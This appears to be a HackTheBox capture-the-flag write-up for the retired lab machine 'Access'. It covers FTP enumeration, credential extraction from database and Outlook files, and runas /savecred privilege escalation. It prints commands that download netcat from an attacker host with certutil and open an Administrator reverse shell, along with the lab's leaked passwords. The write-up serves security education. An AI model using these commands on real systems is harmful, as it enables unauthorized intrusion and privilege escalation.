

# Access

```
Platform    : HackTheBox
OS          : Windows
Difficulty  : Easy
Category    : FTP / Credential Harvesting / RunAs Abuse
IP          : 10.129.19.43
```

---

## Summary

Anonymous FTP access exposed a database backup and a password-protected
archive. Credentials extracted from the database were reused to open
the archive, which contained an Outlook `.pst` file leaking a second
set of credentials via an old email. Those credentials granted Telnet
access as a low-privileged user. Enumeration revealed a shortcut
hinting at a saved-credential `runas` command configured to launch a
tool as Administrator — confirmed exploitable once `net user
administrator` showed no password was required for that account,
allowing a full Administrator reverse shell with no further
credentials needed.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -Pn --open 10.129.19.43 -oN scan.txt
nmap -p 21,23,80 -sCV 10.129.19.43
```

Key findings:

- **Port 21** — Microsoft FTP, anonymous login allowed
- **Port 23** — Telnet (Windows XP telnetd, running on what turned
  out to be a Windows 7-era host based on the NTLM info banner)
- **Port 80** — Microsoft IIS 7.5, hosting "MegaCorp"

A targeted Telnet script scan added no further useful information at
this stage, so focus shifted to the more promising FTP service.

---

## Enumeration

Anonymous FTP login worked, but required forcing passive mode:

```
curl -P - ftp://10.129.19.43/ --user anonymous:anonymous
```

```
Backups/
Engineer/
```

Two files of interest were found and downloaded:

```
curl -P - ftp://10.129.19.43/Backups/backup.mdb --user anonymous:anonymous --output backup.mdb
curl -P - ftp://10.129.19.43/Engineer/Access%20Control.zip --user anonymous:anonymous --output Access_control.zip
```

`backup.mdb` is a Microsoft Access database, readable with
`mdb-tools`. Its tables were listed and the `auth_user` table
extracted:

```
mdb-tables backup.mdb | grep user
mdb-export backup.mdb auth_user
```

```
id,username,password,Status,...
25,"admin","admin",...
27,"engineer","access4u@security",...
28,"backup_admin","admin",...
```

The `engineer` account's password was tried against the
password-protected `Access_control.zip`:

```
7z x Access_control.zip
```

```
Enter password: access4u@security
Everything is Ok
```

This extracted a `.pst` file — a Microsoft Outlook personal storage
file, used to hold local email, contacts, and calendar data. Read
with `readpst`:

```
readpst -e "Access Control.pst"
```

A recovered email revealed a further password change:

```
From: john@megacorp.com
Subject: MegaCorp Access Control System "security" account

The password for the "security" account has been changed to
4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.
```

---

## Foothold

The leaked `security` account credentials were used against the
exposed Telnet service:

```
telnet 10.129.19.43 23
login: security
password: 4Cc3ssC0ntr0ller
```

```
C:\Users\security>whoami
access\security
```

---

## Privilege Escalation — Abusing RunAs

Enumerating `C:\Users\Public\Desktop` revealed a shortcut file:

```
dir C:\Users\Public\Desktop
```

```
ZKAccess3.5 Security System.lnk
```

Its contents, while not cleanly readable as plain text, exposed the
command it launches:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

This indicates a scheduled or shortcut-triggered `runas` command
configured with `/savecred`, meaning it launches a program as
Administrator **without prompting for a password** — Windows caches
the credential the first time it's supplied and reuses it silently
afterward. Whether this is actually exploitable without knowing the
Administrator's password depends on one thing: whether that account
even requires one. This was checked directly:

```
net user administrator
```



`Password required: No` confirmed the Administrator account has an
empty/no password requirement — meaning `runas /savecred` could be
invoked directly as this same low-privileged user to launch **any**
program as Administrator, not just the one referenced in the
shortcut.

A netcat binary was uploaded to the target to get a proper reverse
shell:

```
certutil -urlcache -split -f http://10.10.x.x/nc.exe nc.exe
```

And launched as Administrator via `runas`:

```
runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.x.x 443"
```

Caught on a listener:

```
sudo rlwrap nc -lvnp 443
```

```
C:\Windows\system32>whoami
access\administrator
```

The root flag was then readable directly from the Administrator's
desktop.

---

## Lessons Learned

- Anonymous FTP access is still worth checking exhaustively, not just
  listing the root directory — the real value here was several
  directories deep, in a database backup that most people would
  overlook if they stopped at the first listing.
- Legacy file formats (`.mdb`, `.pst`) shouldn't be dismissed just
  because they're old — both `mdb-tools` and `readpst` turned them
  into plain, searchable credentials with minimal effort.
- Password reuse and password trails (one leaked password unlocking
  the next) are extremely common in these environments — every
  credential found is worth trying against every other exposed
  service, not just the one it was found near.
- `runas /savecred` is a serious local privilege escalation vector
  when combined with an account that has no password set — always
  worth checking `net user <account>` for "Password required: No" on
  any account referenced by a saved-credential shortcut or scheduled
  task, since that single setting is what turns a hint into a working
  exploit.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
